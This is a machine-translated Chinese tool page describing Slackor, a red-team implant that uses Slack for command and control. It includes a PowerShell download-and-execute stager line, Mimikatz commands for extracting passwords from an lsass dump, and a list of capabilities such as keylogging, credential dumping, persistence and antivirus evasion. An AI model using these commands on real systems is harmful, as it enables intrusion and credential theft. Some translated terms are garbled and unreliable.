

# Slackor:一个使用 Slack 作为命令和控制服务器的 Golang 植入物

> 原文：<https://kalilinuxtutorials.com/slackor-golang-implant-control-server/>

**Slackor** 是一个 golang 植入体，它使用 Slack 作为命令和控制服务器。该工具是作为概念验证发布的。在创建任何 Slack 应用程序之前，请务必阅读并理解 [Slack 应用程序开发者政策](https://api.slack.com/developer-policy)。

**设置**

**注:服务器是用 Python 3 写的**

为此，您需要:

*   宽松的工作空间
*   [用以下权限注册一个 app](https://api.slack.com/apps) :
    *   **频道:读取**
    *   **频道:历史**
    *   **频道:写**
    *   **文件:写:用户**
    *   **文件:读取**
*   创建一个机器人

此回购包含五个文件:

*   `**install.sh**`安装家属
*   `**setup.py**`创建松弛渠道、数据库和植入的脚本
*   Slackor 服务器，设计用于在 Linux 上运行
*   `**agent.go**`生成的植入物
*   `**requirements.txt**` Python 依赖项(自动安装)

要开始使用:

*   运行`**install.sh**`
*   运行`**setup.py**`
    *   从您的应用程序中提供 *OAuth 访问令牌*和 *Bot 用户 OAuth 访问令牌*

成功运行脚本后，将创建一个文件`agent.exe`。这将是一个 64 位的 Go 二进制包与 UPX。

在 Linux 主机上启动 server.py 之后，在目标 Windows 主机上执行`agent.exe`。

运行“stager”模块来生成一行程序和其他 droppers。

**powershell.exe iwr[URL]-o C:\ Users \ Public \[NAME]。exeforfiles.exe/p C:\ windows \ system32/m svchost.exe/C C:\ Users \ Public \[NAME]；超时 2；del C:\Users\Public\[NAME]。exe**

这将执行 InvokeWebRequest(PS v.3+)来下载有效载荷，使用一个 [LOLBin](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/) 来执行它，然后一旦被杀死就删除自己。这是一个工作示例，但该命令可以调整为使用另一种下载方法或执行方法。

**又读-[冰箱:虚拟机自检，跟踪&调试](https://kalilinuxtutorials.com/icebox-virtual-machine-debugging/)**

**用法**

键入“help”或按[TAB]查看可用命令的列表。键入“help [COMMAND]”查看该命令的描述。

`(**Slackor**)`

*   **帮助**–显示帮助菜单
*   **互动**–与代理互动
*   **列表**–列出所有注册代理
*   **移除**–杀死并移除一个代理
*   **恢复**–向所有代理发送信号，以向服务器重新注册
*   **stager**–生成一行程序来下载并执行植入
*   **退出**–退出程序
*   **wipe files**–删除所有上传的空闲文件

一旦代理签入，您就可以与之交互。使用“交互[代理]进入代理提示。键入“help”或按[TAB]查看可用命令的列表。

`**(Slackor:AGENT)**`

*   **返回**–返回主菜单
*   **beacon**–由代理更改每次登记的时间间隔(默认为 5 秒)
*   **bypassuac**–尝试生成高完整性代理
*   **清理**–移除持续伪像
*   **剪贴板**–检索剪贴板的内容
*   **解密者**–试图解密 Windows Defender
*   **下载**–从代理下载文件到 Slackor 服务器
*   **duplicate**–使代理产生另一个自身调用
*   **get SYSTEM**–生成一个代理作为 NTAUTHORITY/SYSTEM
*   **帮助**–显示帮助菜单
*   **按键扫描**–启动代理上的按键记录程序
*   **杀死**–杀死代理
*   **小型转储**–从 lsass.exe 转储内存并下载
*   **persist**–通过在 ADS 中植入二进制文件来创建持久性
*   **SAM dump**–尝试转储 SAM 文件以进行离线哈希提取
*   **截图**–获取桌面截图并检索
*   **外壳代码**–执行 x64 原始外壳代码
*   **睡眠**–使代理睡眠一次(以秒为单位输入时间)
*   **sysinfo**–显示当前用户、操作系统版本、系统架构和 CPU 内核数量
*   **上传**–从 Slackor 服务器上传文件到代理
*   通过 HTTP/HTTPS 下载任意文件

**OPSEC 注意事项**

除了 TLS 传输加密之外，命令输出和下载的文件也经过 AES 加密。

在执行写入磁盘的任务之前，模块会向您发出警告。执行 shell 命令时，请注意 cmd.exe 将被执行。这可以在主机上监控。以下是几个不会执行 cmd.exe 的 OPSEC 安全命令:

*   **cat**–打印文件内容
*   **CD**–更改目录
*   **查找**–搜索目录文件名
*   **getip**–获取外部 ip 地址(发出 DNS 请求)
*   **主机名**–显示主机名
*   **ifconfig**–显示界面信息
*   **ls**–列出目录内容
*   **mkdir**–创建目录
*   **pwd**–打印当前工作目录
*   **RM**–删除文件
*   **rmdir**–删除目录
*   **whoami/getuid**–打印当前用户

**常见问题解答**

这对红队/圣灵测试安全吗？

是的，在某些条件下。当数据在传输过程中被加密时，代理包含用于解密的密钥。任何获得代理副本的人都可以对其进行逆向工程，并提取 API 密钥和 AES 密钥。任何危及或以其他方式获得工作区访问权限的人都可以检索其中的所有数据。因此，不建议针对多个组织重用基础架构。

**米米卡兹呢？**

该植入物没有内存密码转储功能。如果您需要登录密码，可以尝试以下方法:

**(Slackor: AGENT)小型转储**

这将自动提取密码与 Pypykatz。或者，您可以在 Windows 上使用 Mimikatz。

**>mimikatz.exe
米米卡兹# sekurlsa::Minidump lsassdump . DMP
米米卡兹# sekurlsa::logonPasswords**

**是跨平台吗？**

还没有。它还没有在各种系统上完全测试过。服务器设计为在 Kali Linux 上运行，代理设计为在 Windows 10 上运行。

它的伸缩性如何？

可伸缩性受到 Slack API 的限制。如果有多个代理，请考虑增加未使用的信标的信标间隔。

**它容易受到标准信标分析的攻击吗？**

目前每个信标有 20%的抖动内置，信标时间可以定制。只要没有接收到新的命令，每次代理签入请求和响应数据包的大小将大致相同。

当更好的方法是[y]时，你为什么做[x]?

我尽力了。鼓励减贫战略🙂

**被 AV 抓住了！**

内置的 HTA 舞台是由 [SpookFlare](https://github.com/hlldz/SpookFlare) 基于[demi gaise](https://github.com/nccgroup/demiguise)打造的。如果你想你的滴管不被钩住，你可能想去定制。内置滴管只是让你开始。

**信用:** [Gcat](https://github.com/byt3bl33d3r/gcat) 和[Twitter](https://github.com/PaulSec/twittor)。

[**Download**](https://github.com/Coalfire-Research/Slackor)